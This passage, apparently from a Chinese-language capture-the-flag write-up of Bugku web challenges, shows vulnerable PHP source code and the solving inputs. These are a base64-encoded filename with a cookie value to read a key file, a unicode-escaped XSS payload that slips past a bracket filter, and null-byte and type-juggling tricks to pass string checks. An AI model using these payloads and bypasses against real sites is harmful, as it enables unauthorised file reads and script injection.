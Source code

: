 ```bash
}

if(in_array($file, $file_list)){
	$fa = file($file);
	echo $fa[$line];
}
?>

```
分析可得，当Cookie:margin=margin 时，keys.php文件，会包含在$file_list数组中，然后在把keys.php进行base64编码，赋值给filename,就会返回flag.
```bash
?line=&filename=a2V5cy5waHA=
Cookie:margin=margin
```
# xss
过滤了<>,用unicode绕过
```bash
?id=\u003cimg%20src=1%20onerror=alert(_key_)\u003e
```
# never give up
访问1p.html，得到源码，对其进行部分base64解码，在url解码可得如下
```bash
var Words =
"<script>window.location.href='http://www.bugku.com';</script> 
<!--";if(!$_GET['id'])
{
	header('Location: hello.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
	echo 'no no no no no no no';
	return ;
}
$data = @file_get_contents($a,'r');
if($data=="bugku is a nice plateform!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
	require("f4l2a3g.txt");
}
else
{
	print "never never never give up !!!";
}
?>-->" 
function OutWord()
{
var NewWords;
NewWords = unescape(Words);
document.write(NewWords);
} 
OutWord();
// -->
```
[php://](http://php.net/manual/zh/wrappers.php.php)</br>
由源码可知，id要和0相等，但是不能为零，这时id只能为字符串。
对b的要求长度要大于5,‘111’+b[0]要包含在‘1114’,并且b[0]不等于4,所以用unicode编码，且b前面为%00，让ergegi处理的时候被截断（strlen不会），此时就符合了。